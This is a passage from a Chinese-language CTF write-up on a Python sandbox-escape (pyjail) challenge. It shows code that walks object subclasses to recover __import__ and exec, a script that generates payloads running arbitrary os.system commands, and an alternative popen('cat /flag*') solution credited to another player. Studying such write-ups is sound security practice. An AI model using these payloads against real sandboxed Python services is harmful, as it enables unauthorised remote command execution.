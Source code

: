 那最後我們可以透過這樣拿到 `__import__` 

```python
v:={x for x in ''.__class__.__base__.__subclasses__() if 'verify' in x.__name__}.pop(),
__import__itr:={o for o in v.__init__.__builtins__.copy().items() if '__import__' in o}.pop().__iter__(),
__import__itr.__next__(),
__import__:=__import__itr.__next__()
```

可以透過這樣拿到 `exec`

```python
execitr:={o for o in v.__init__.__builtins__.copy().items() if 'exec' in o}.pop().__iter__(),
execitr.__next__(),
exec:=execitr.__next__(),
exec('__import__\\x28"os"\\x29.system\\x28"<PWNPWN>"\\x29')
```

於是就可以直接 RCE 了

```python
import sys

base = "{{lambda:{}}}.pop()()"
payload = """{
v:={x for x in ''.__class__.__base__.__subclasses__() if 'verify' in x.__name__}.pop(),
__import__itr:={o for o in v.__init__.__builtins__.copy().items() if '__import__' in o}.pop().__iter__(),
__import__itr.__next__(),
__import__:=__import__itr.__next__(),
execitr:={o for o in v.__init__.__builtins__.copy().items() if 'exec' in o}.pop().__iter__(),
execitr.__next__(),
exec:=execitr.__next__(),
exec('__import__\\x28"os"\\x29.system\\x28"<PWNPWN>"\\x29')
}""".replace("\n", "")

payload = payload.replace("<PWNPWN>", sys.argv[1])
payload = base.format(payload)

print(payload)
```

另外由於 regex 寫爛，導致在括號裡面放括號的時候也會只算一個，所以會有以下非預期解（From @nella17）

```python
(lambda: 
    {0:
        {0:
            {0: y('cat /flag*').read() for x, y in x.__init__.__globals__.items() if f'{x}' == 'popen' }
            for x in x.__subclasses__() if f'{x}' == "<class 'os._wrap_close'>"
        }
        for x in ().__class__.__mro__ if f'{x}' == "<class 'object'>" 
    }
)()
```

但其實已經非常像正解了，僅有最外層 lambda 建立並呼叫改為用 set 來建立並呼叫就是預期解。
